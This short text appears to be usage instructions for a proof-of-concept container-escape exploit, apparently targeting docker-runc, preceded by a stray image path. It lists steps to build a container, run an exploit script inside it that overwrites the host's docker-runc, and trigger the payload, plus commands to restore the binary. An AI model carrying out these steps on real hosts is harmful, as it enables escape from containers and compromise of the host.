 To run:  
   - (1). edit poc command in stage2.c  
   - (2). build docker `docker build -t cve .`  
   - (3). run docker  `docker run -d cve /bin/bash -c "tail -f /dev/null"`  
   - (4). backup docker-runc  `cp /usr/bin/docker-runc /usr/bin/docker-runc.bak`  
   - (5). `docker exec -it docker-id /bin/bash`  
   - (6). in docker run `cd /root && ./run.sh && exit`  
   - (7). `docker exec -it docker-id /bin/bash`,bingo!!  

    run `strings /usr/bin/docker-runc | tail -n 2` view docker-runc  
    run  `cp /usr/bin/docker-runc.bak /usr/bin/docker-runc` recovery docker-runc  
